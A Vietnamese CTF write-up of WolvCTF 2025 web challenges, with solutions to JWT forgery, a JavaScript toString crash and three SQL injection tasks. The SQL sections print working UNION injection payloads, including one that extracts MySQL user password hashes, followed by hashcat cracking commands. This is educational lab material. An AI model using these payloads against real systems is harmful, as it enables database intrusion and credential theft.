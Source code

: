 # WolvCTF 2025

# JWT Learning

- Với bài này, khi vào trang web nó có giới thiệu về "JWT"
- Sang trang 2, nó cho mình tạo 1 username và tạo ra 1 `JWT Token`

![image](https://hackmd.io/_uploads/rJyDt5Chyx.png)

- Tạo 1 username bất kỳ và nó cho ta `access-token`
- Copy nó và lên [https://jwt.io/](https://jwt.io/)

![image](https://hackmd.io/_uploads/HJ0J5qRnJx.png)

- Có thể thấy trong json phần "isAdmin" là `false`, ta cần sửa nó thành `true` để có thể gửi đi, nhưng để sửa được nó thì ta cần 1 `Secret Key`
- Trong trang tiếp theo có nhắc, giới thiệu đến `/robots.txt`, vào thử trang đó

![image](https://hackmd.io/_uploads/HkMbo5C2ke.png)

- Ta tìm được đường dẫn đến `/TOKEN_SECRET.txt`. Và ở đây ta đã tìm được `secret key` kia. Quay lại trang [jwt.io](http://jwt.io/)

![image](https://hackmd.io/_uploads/HJSii9RnJl.png)

- Sửa giá trị "isAdmin" thành `true`, copy đoạn jwt đó rồi vào BurpSuite gửi đi

![image](https://hackmd.io/_uploads/B1B73c0nyx.png)

# Javascript Puzzle

- Trong bài này, chúng ta được cung cấp `app.js`. Nhìn vào đoạn code sau:

```jsx
app.get('/', (req, res) => {
    try {
        const username = req.query.username || 'Guest'
        const output = 'Hello ' + username
        res.send(output)
    }
    catch (error) {
        res.sendFile(__dirname + '/flag.txt')
    }
})

```

- Để lấy được flag, ta cần gây lỗi cho server để server kích hoạt `catch(error)` và in ra flag từ `flag.txt`
- Server ghép chuỗi `username` vào `output` mà không kiểm tra kiểu dữ liệu. Nếu có lỗi xảy ra trong *try*, server sẽ gửi file `flag.txt`.
- Thử `username` là 1 chuỗi bình thường:

![image](https://hackmd.io/_uploads/rJBDVq0n1e.png)

- Thử `username` là 1 object `{}`:

![image](https://hackmd.io/_uploads/rypyScC21l.png)

- Thử `username` là 1 object:

![image](https://hackmd.io/_uploads/SksvSqC2yx.png)

Có thể thấy, khi thực hiện việc nối chuỗi với 1 object thì javascript sẽ tự động gọi `toString()` của object đó và trả về [object Object]

- Vậy nên, nếu chúng ta gán `toString` thành một chuỗi thay vì một hàm, JavaScript sẽ không thể gọi được nó, gây lỗi.

![image](https://hackmd.io/_uploads/BkUAv5Chye.png)

# Limited 1

![image](https://hackmd.io/_uploads/rJJtwHe6ye.png)

- Nhìn vào câu truy vấn trong code ta có thể khai thác SQLi với 3 chỗ là {price_op}, {price} và {limit}
- Nhưng {price_op} bị giới hạn là 4 ký tự, còn {price} nếu khi ta đưa vào 1 giá trị mà hàm float() không thể xác định, thì nó sẽ đặt giá trị của `price = 0.0`
    
    ![image](https://hackmd.io/_uploads/rJMxYHxTJe.png)
    
- Thêm nữa, ta bị hạn chế trong việc sử dụng `;`
- Từ câu truy vấn gốc đó, ta có thể nghĩ đến việc bỏ hẳn cả `price` và `limit` bằng `/* */`
- Câu truy vấn sẽ như thế này:
`SELECT /*{FLAG1}*/category, name, price, description FROM Menu WHERE price {price_op} /*{price} ORDER BY 1 LIMIT {limit}*/`
- Mà {price} chắc chắn chỉ có số, thì ta có thể đặt `/*` vào cuối {price_op}
- Tức là khi đó:

```sql
SELECT /*{FLAG1}*/category, name, price, description
FROM Menu
WHERE price {price_op}/* {price}
ORDER BY 1 LIMIT {limit}*/

```

- Khi này điều kiện bị thiếu giá trị so sánh, nên ta cần thêm vào trước hoặc sau `/* */` (Tức là 1 giá trị thay thế cho {price})

```sql
SELECT /*{FLAG1}*/category, name, price, description
FROM Menu
WHERE price {price_op}/* {price}
ORDER BY 1 LIMIT {limit}*/4.99

```

![image](https://hackmd.io/_uploads/SkmjjSx6yl.png)

- Vì bị hạn chế sử dụng `;` nên ta có thể dùng `UNION`
- Ở đây, ta cũng biết flag cần tìm ở ngay trong truy vấn sql đang chạy. Vậy nên có thể sử dụng `INFORMATION_SCHEMA.PROCESSLIST` cùng với `info` để xem truy vấn đang được chạy:
`/query?price=4.99&price_op=%3D/*&limit=5*/4.99+UNION+SELECT+info,+NULL,+NULL,+NULL+FROM+INFORMATION_SCHEMA.PROCESSLIST`
    
    ![image](https://hackmd.io/_uploads/SJpt6rxTJl.png)
    

`FLAG: wctf{bu7_my5ql_h45_n0_curr3n7_qu3ry_func710n_l1k3_p0576r35_d035_25785458}`

# Limited 2

![image](https://hackmd.io/_uploads/HyQX0BgTkg.png)

- Với bài số 2 ta được biết, flag đang nằm ở 1 bảng khác với tên bảng bắt đầu bằng `Flag_`
- Sử dụng `table_name` với `information_schema.tables` để hiện lên tất cả tên bảng
    
    ![image](https://hackmd.io/_uploads/rk6RRHxpye.png)
    
- Rồi tương tự với việc lấy tên cột bằng `column_name` và `information_schema.columns`, ta lấy được tên cột là `value`
    
    ![image](https://hackmd.io/_uploads/HJcp1Uxayg.png)
    
- có tên cột và bảng rồi thì select thui
    
    ![image](https://hackmd.io/_uploads/r114xLx61e.png)
    

`Flag: wctf{r34d1n6_07h3r_74bl35_15_fun_96427235634}`

# Limited 3

![image](https://hackmd.io/_uploads/rJrQmUxakx.png)

- Trong db có nói đến việc thêm 1 người dùng `flag` vào bảng `mysql.user` với pass là flag cần tìm
- Mật khẩu có 13 ký tự.

![image](https://hackmd.io/_uploads/SySYN8gTJe.png)

![image](https://hackmd.io/_uploads/rJF9NUlTJx.png)

- Tìm trong bảng `mysql.user` có thể dùng `user`, `password` và `authentication_string` để tìm phần mật khẩu đã lưu cho user flag
    
    ![image](https://hackmd.io/_uploads/S1NALUxayg.png)
    
- Đoạn này em không có biết nên em xem ké
    
    ![image](https://hackmd.io/_uploads/HyKHD8lpJg.png)
    

`UNION+SELECT+User,2,3,CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*'))+AS+hash+FROM+mysql.user+WHERE+plugin+%3d+'caching_sha2_password'`

![image](https://hackmd.io/_uploads/Bk3IYLlpkg.png)

- Tạo file 13 ký tự từ file `rockyou.txt`:
`awk 'length($0) == 13' rockyou.txt > rockyou13.txt`
- Xong rùi chạy: `hashcat hash.txt rockyou13.txt`
    
    ![image](https://hackmd.io/_uploads/SkOiRUgpJg.png)
    

`Flag: wctf{maricrissarah}`